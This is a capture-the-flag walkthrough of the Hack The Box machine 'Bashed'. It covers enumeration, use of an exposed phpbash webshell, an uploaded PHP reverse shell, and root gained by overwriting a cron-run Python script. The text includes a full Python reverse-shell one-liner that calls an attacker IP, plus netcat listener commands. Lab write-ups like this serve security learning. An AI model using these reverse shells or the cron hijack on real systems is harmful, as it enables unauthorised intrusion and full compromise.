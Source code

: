 ```yaml
---
title: "Bashed"
tags:
  - Easy
  - Linux
  - php
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.68 |  | [Bashed](https://app.hackthebox.com/machines/bashed) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV -oN nmap/bashed 10.10.10.68

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 00:22 EST
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Web Enumeration

The target hosts a webservice on port 80. Navigating to http://10.10.10.68, we find a simple website title "Arrexel's Development Site". We may assume Arrexel is the user.

Using Gobuster for directory enumeration revealed several endpoints:
> **_NOTE:_** commonly used wordlist for directory and subdomain enumeration

```
gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

The `/php` directory displays an exposed sendMail.php.
![sendmail](../assets/Bashed/screenshot.php.png)

The `/dev` directory contained a webshell named phpbash. Accessing it gave us an interactive shell as the `www-data` user:
![phpbash](../assets/Bashed/screenshot.dev.png)

## Foothold

We run `sudo -l` to display the sudo privileges of the current user and notice that the scriptmanager can run all. We execute `sudo -u scriptmanager bash -i` to switch to `scriptmanager` user, but the interactive web shell is not persistent.

![www-data](../assets/Bashed/screenshot.www-data.png)

From our enumeration, we discovered the `uploads` directory. Before attempting to upload a reverse shell, we will test whether file uploads are allowed and accessible.

![uploads](../assets/Bashed/screenshot.uploads.png)

We verify that the file is accessible by navigating to `http://10.10.10.68/uploads/test`, confirming that we could upload and execute files in this directory.

We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly.

```
$ip = <Your_IP>;  // CHANGE THIS
$port = <1234>;       // CHANGE THIS
```

We hosted the shell.php file using Python's HTTP server. This makes the file available for download from the target machine. Using the webshell (`phpbash`), we upload the file from our attaching machine at port 80 and catch the reverse shell connection, by starting a netcat listener on port 1234. Finally, we navigate to `http://10.10.10.68/uploads/shell.php` to trigger the reverse shell to gain an persistent interactive shell.

```
python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [11/Jan/2025 16:18:58] "GET /shell.php HTTP/1.1" 200 -
```
![uploads-reverse-shell](../assets/Bashed/screenshot.uploads-reverse-shell.png)

```
nc -lnvp 1234
```

![persistent](../assets/Bashed/screenshot.persistent.png)

We execute the code to switch to `scriptmanager` user and succeed. We run `ls -la` to see a list of ownership for availabe files. `/scripts` directory contained files owned by `scriptmanager`.

```
sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ ls -la
ls -la
total 92
...
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jan 10 20:21 scripts
...
```

## Privilege Escalation

Running `ls -la` on `/scripts` we obeserve a cron job executed `test.py` every minute. Any modifications will be triggered frequently and will allow us to escalate privilege.

![scripts](../assets/Bashed/screenshot.scripts.png)

We modify `test.py` with reverse shell script. 
> **_NOTE:_**  The `vi` editor was cumbersome in this environment because it was not reacting to typical vi hotkeys. As a result, we opt to use `echo` for a quicker and more efficient approach to overwrite the file. 

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((<Your_IP>,1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")" > test.py
```
We set up a listener on port 1337 and run `test.py` to initate reverse shell.

```
nc -lvnp 1337
```
```
python3 test.py
```
After the cron job triggered the modified `test.py`, we established a root shell, successfully escalating our privileges.

![root](../assets/Bashed/screenshot.root.png)

The user and root flag are located in a `/home/arrexel/user.txt` and `root/root.txt`, respectively.